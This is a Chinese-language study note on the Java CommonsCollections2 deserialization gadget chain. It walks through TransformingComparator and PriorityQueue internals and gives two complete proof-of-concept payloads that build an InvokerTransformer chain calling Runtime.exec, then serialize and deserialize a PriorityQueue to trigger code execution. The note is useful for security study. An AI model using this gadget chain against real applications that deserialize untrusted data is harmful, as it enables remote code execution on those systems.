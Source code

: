 # java 反序列化 gadgets 学习（CommonsCollections2）
CommonsCollections2 的 gadgets 相对 CommonsCollections1 要简单的多，最大的区别就是把串联`InvokerTransformer`的 gadget 从`ChainedTransformer`改成了`TransformingComparator`
![-w509](media/15926852968027/15926853350022.jpg)

## InvokerTransformer
参考[java 反序列化 gadgets 学习（CommonsCollections1）](https://github.com/muzai/Clog/blob/master/java-security/java-deserialization-gadgets-learning.md)

## TransformingComparator

### 相关属性
![-w530](media/15926852968027/15927292099700.jpg)


### 构造函数
![-w707](media/15926852968027/15927292407175.jpg)


### compare
![-w461](media/15926852968027/15927286808706.jpg)
利用compare方法，构造合适的TransformingComparator实例，显然可以嵌套调用InvokerTransformer实现rce。

### rce payload
```java
public static void testTransformingComparator() throws Exception {
    InvokerTransformer invokerTransformer1 = new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", new Class[0]});

    InvokerTransformer invokerTransformer2 = new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]});

    InvokerTransformer invokerTransformer3 = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"touch /tmp/ccs"});

    TransformingComparator transformingComparator1 = new TransformingComparator(invokerTransformer3);
    TransformingComparator transformingComparator2 = new TransformingComparator(invokerTransformer2, transformingComparator1);
    TransformingComparator transformingComparator3 = new TransformingComparator(invokerTransformer1, transformingComparator2);

    transformingComparator3.compare(Runtime.class, Runtime.class);

}
```

## PriorityQueue

### 相关属性
![-w596](media/15926852968027/15927283815028.jpg)

### 构造函数
![-w383](media/15926852968027/15927279603427.jpg)


### readObject
![-w718](media/15926852968027/15927277496333.jpg)


### heapify
![-w519](media/15926852968027/15927277865000.jpg)
为了方便理解，假设
```java
queue = [Runtime.class, Runtime.class];
size = 2;
comparator = something not null
```
上述代码就成了
```java
es = [Runtime.class, Runtime.class];
n = 2;
i = 0;
// loop only once
siftDownUsingComparator(
    0, 
    Runtime.class, 
    [Runtime.class, Runtime.class],
    2, 
    comparator);
```

### siftDownUsingComparator
![-w555](media/15926852968027/15927278319569.jpg)
承接上述假设
```java
k = 0;
x = Runtime.class;
n = 2;
half = 1;
while {
    child = 1;
    c = Runtime.class;
    right = 2
}
```
理论上这里可以顺利执行compare(Runtime.class, Runtime.class)，但是不知道是否会报数组越界。

我的实际测试jdk版本是1.8.0_221，上述代码有些变化，变化部分包括
![-w392](media/15926852968027/15927307740896.jpg)

![-w318](media/15926852968027/15927307860021.jpg)

![-w516](media/15926852968027/15927308943278.jpg)
这时
```
k = 0;
x = Runtime.class;
half = 1;
child = 1;
c = Runtime.class;
```
这时没有越界问题。

### rce payload
```
public static void testPriorityQueue() throws Exception {
    InvokerTransformer invokerTransformer1 = new InvokerTransformer(
            "getMethod",
            new Class[]{String.class, Class[].class},
            new Object[]{"getRuntime", new Class[0]});

    InvokerTransformer invokerTransformer2 = new InvokerTransformer(
            "invoke",
            new Class[]{Object.class, Object[].class},
            new Object[]{null, new Object[0]});

    InvokerTransformer invokerTransformer3 = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"touch /tmp/ccs"});

    TransformingComparator transformingComparator1 = new TransformingComparator(invokerTransformer3);
    TransformingComparator transformingComparator2 = new TransformingComparator(invokerTransformer2, transformingComparator1);
    TransformingComparator transformingComparator3 = new TransformingComparator(invokerTransformer1, transformingComparator2);

    PriorityQueue priorityQueue = new PriorityQueue(transformingComparator3);
    priorityQueue.add(Runtime.class);
    priorityQueue.add(Runtime.class);

    // serialize
    try (ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("TestPriorityQueueSer"))) {
        os.writeObject(priorityQueue);
    } catch (Exception e) {
        e.printStackTrace();
    }

    // deserialize
    try (ObjectInputStream is = new ObjectInputStream(new FileInputStream("TestPriorityQueueSer"))) {
        String anything = (String) is.readObject();
    } catch (IOException | ClassNotFoundException e) {
        e.printStackTrace();
    }
}
```
